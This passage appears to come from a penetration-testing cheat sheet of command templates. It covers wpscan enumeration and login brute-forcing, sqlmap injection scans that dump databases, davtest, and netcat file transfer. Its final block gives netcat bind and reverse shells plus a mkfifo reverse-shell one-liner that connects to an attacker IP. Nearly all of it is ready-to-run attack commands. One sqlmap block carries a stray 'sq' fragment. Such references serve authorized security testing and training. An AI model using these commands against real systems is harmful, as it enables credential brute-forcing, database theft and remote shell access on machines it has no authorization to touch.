 ```bash
wpscan --url [TARGET_URL] --enumerate vp --plugins-detection aggressive
```
- <mark>Themes Enumeration</mark>
```bash
wpscan --url [TARGET_URL] -e t
```
- <mark>Users Enumeration</mark>
```bash
wpscan --url [TARGET_URL] -e u
```
- <mark>Login Brute-Forcing</mark>
```bash
wpscan --url [TARGET_Login_URL] --passwords [PASSWORD_LIST] --usernames [USERNAME_LIST]
```
### sqlmap
- <mark>Basic Scan</mark>
```bash
#GET Request
sqlmap -u "http://[url]/file.php?id=1" -p id
#POST Request
sqlmap -u "http://[url]/login.php" --data="user=admin&password=admin"
sq```
- <mark>Data Retrieval</mark>
```bash
#Get databases
sqlmap -u [TARGET_URL] --dbs
#Get tables of a database
sqlmap -u [TARGET_URL] -D [DATABASE_NAME] --tables
#Get columns of a table
sqlmap -u [TARGET_URL] -D [DATABASE_NAME] -T [TABLE_NAME] --columns
#Dump entries of a table
sqlmap -u [TARGET_URL] -D [DATABASE_NAME] -T [TABLE_NAME] --dump
```
### davtest
- <mark>Basic Scan</mark>
```bash
davtest -url http://[target_URL] -cleanup
```
# General-Utilities
## File Transfer
### netcat(nc)
- <mark>File Transfer</mark>
```bash
#Receiver
nc -lnvp [port number] > [file]
#Sender
nc [IP address] [port number] < [file]
```
- <mark>Banner Grabbing</mark>
```bash
nc -nv [IP address] [port number]
```
- <mark>Bind/Reverse Shells</mark>
```bash
#Bind
nc -lp [port number] -e /bin/bash
#Reverse
nc [attacker IP] [port number] -e /bin/bash
#Sometimes, freeBSD version does not support -e flag, but still possible to achieve reverse shell connection
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [attacker IP] [port number] >/tmp/f
```
